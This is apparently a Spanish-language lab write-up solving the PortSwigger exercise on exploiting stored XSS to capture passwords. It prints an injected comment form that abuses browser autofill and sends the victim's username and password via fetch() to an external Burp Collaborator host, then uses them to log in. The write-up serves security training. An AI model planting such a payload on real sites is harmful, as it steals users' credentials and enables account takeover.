 ```yaml
---
title: "Exploiting cross-site scripting to capture passwords"
description: "Laboratorio de Portswigger sobre XSS"
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XSS
tags:
  - XSS
  - Exploiting cross-site scripting to capture passwords
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `stored XSS` en la función de `comentarios del blog`. Un usuario `víctima` simulado ve todos los `comentarios` después de que se publiquen. Para `resolver` el laboratorio, debemos `explotar` la `vulnerabilidad` para `exfiltrar` el `nombre de usuario` y la `contraseña` de la víctima, luego usar estas `credenciales` para `iniciar sesión` en la cuenta de la víctima

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-23/image_1.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-23/image_2.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-23/image_3.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-23/image_4.png)

Si nos `abrimos` el `inspector` de `Chrome` y le echamos un vistazo a las `cookies` vemos que tienen las `flags (HttpOnly y Secure)`. `HttpOnly` nos `impide acceder a la cookie a través de JavaScript` y `Secure nos obliga a que la cookie solo se transmita a través de conexiones seguras HTTPS`

![](/assets/img/XSS-Lab-23/image_5.png)

Debido a que podemos `inyectar código HTML` podemos `crear` un `formulario` y `aprovechar` el `autocompletado` del `navegador` para `obtener` las `credenciales`. En esta web [https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/autocomplete](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/autocomplete) nos `detalla` como podemos usar el `atributo autocomplete` y los `requerimientos necesarios` para que se `ejecute correctamente`. El `atributo autocomplete` a parte de `on` y `off` tiene varios valores interesante los cuales se pueden ver accediendo a la web mencionada anteriormente, entre estos valores están `username`, `nickname`, `new-password`, `current-password` y `email` entre otros. He creado este `formulario` se aprovecha del `autocompletado` del `navegador` para `obtener` las `credenciales` del `usuario administrador`

```
<form action="#" method="post">
  <input type="text" id="loginUsername" name="username" autocomplete="on" placeholder="Introduce tu nombre de usuario" required>
  <input type="password" id="loginPassword" name="password" autocomplete="on" placeholder="Introduce tu contraseña" required onchange="
    if(this.value.length) {
      fetch('https://7t1e3i5rp0jhqj79js8c833qchi8aw0kp.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: loginUsername.value + ':' + this.value
      });
    }
  ">
  <button type="submit">Enviar</button>
</form>
```

Una vez `publicado` este `comentario` nos vamos a `Burpsuite Collaborator` y `obtenemos` el `nombre` de `usuario` y la `contraseña` de los `usuarios`

![](/assets/img/XSS-Lab-23/image_6.png)

Pulsamos sobre `My account` y nos `logueamos` con las `credenciales`

![](/assets/img/XSS-Lab-23/image_7.png)
